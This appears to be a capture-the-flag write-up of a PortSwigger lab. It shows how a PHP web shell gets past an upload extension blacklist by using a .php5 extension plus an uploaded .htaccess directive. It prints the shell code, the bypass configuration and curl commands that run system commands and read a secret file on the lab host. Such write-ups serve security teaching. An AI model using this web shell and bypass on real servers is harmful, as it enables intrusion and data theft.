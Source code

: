 # Web shell upload via extension blacklist bypass

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass), you'll learn: Web shell upload via extension blacklist bypass! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★☆☆☆☆☆☆

## Background

This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed due to a fundamental flaw in the configuration of this blacklist.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-4/images/Pasted%20image%2020221216011314.png)

**Login as user `wiener`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-4/images/Pasted%20image%2020221216011331.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-4/images/Pasted%20image%2020221216011338.png)

In the previous labs, we found the image upload function is vulnerable.

**Let's try to upload a PHP web shell, and intercept the request via Burp Suite:**
```php
<?php system($_GET['cmd']); ?>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-4/images/Pasted%20image%2020221216011833.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-4/images/Pasted%20image%2020221216011853.png)

When we clicked the `Upload` button, it'll send a POST request to `/my-account/avatar`.

**Let's forward that request:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-4/images/Pasted%20image%2020221216011950.png)

Hmm... `php files are not allowed`.

**To bypass this, we can rename the file extension to `.php5`. This extension tells the web server to use PHP version 5.**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-4/images/Pasted%20image%2020221216012133.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-4/images/Pasted%20image%2020221216012148.png)

We've successfully uploaded the web shell!

**Can we execute any commands?**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-2]
└─# curl https://0a7e00e604ca24d3c074863600320039.web-security-academy.net/files/avatars/webshell.php5 --get --data-urlencode "cmd=id"                     
<?php system($_GET['cmd']); ?>
```

Nope.

This might happen is because **servers typically won't execute files unless they have been configured to do so.**

**In FireFox extension `Wappalyzer`, it will tell us which web server is using:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-4/images/Pasted%20image%2020221216012534.png)

In this case, **the web server is using `Apache`.**

**In Apache server, before executing PHP files requested by a client, developers might have to add the following directives to their `/etc/apache2/apache2.conf` file:**
```
LoadModule php_module /usr/lib/apache2/modules/libphp.so
AddType application/x-httpd-php .php
```

Many servers also allow developers to create special configuration files within individual directories in order to override or add to one or more of the global settings.

In Apache servers, it will load a directory-specific configuration from a file called `.htaccess` if one is present.

**Now, what if I upload a file called `.htaccess` to override the server configuration?**

**After poking around, I found this [Medium blog](https://asreshashank.medium.com/execute-php-scripts-into-html-file-by-modifying-htaccess-file-8517ed1e2066):**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-4/images/Pasted%20image%2020221216013635.png)

**With that said, we can create our own `.htaccess` with the following configuration:**
```
AddType application/x-httpd-php .php5
```

**By doing that, we can execute any file that has `.php5` extension!**

**Let's do that!**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-4]
└─# echo "AddType application/x-httpd-php .php5" > .htaccess
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-4/images/Pasted%20image%2020221216013901.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-4/images/Pasted%20image%2020221216013921.png)

**Change the `Content-Type` to `text/plain`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-4/images/Pasted%20image%2020221216013954.png)

**Then forward the request:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-4/images/Pasted%20image%2020221216014018.png)

**Now, we should able to execute our uploaded web shell!**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-2]
└─# curl https://0a7e00e604ca24d3c074863600320039.web-security-academy.net/files/avatars/webshell.php5 --get --data-urlencode "cmd=id"
uid=12002(carlos) gid=12002(carlos) groups=12002(carlos)
```

**Yes! Let's `cat` the `secret` file:**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-2]
└─# curl https://0a7e00e604ca24d3c074863600320039.web-security-academy.net/files/avatars/webshell.php5 --get --data-urlencode "cmd=cat /home/carlos/secret"
msmjtxD8JyjrKVclp0tr4TlZDhWle315
```

# What we've learned:

1. Web shell upload via extension blacklist bypass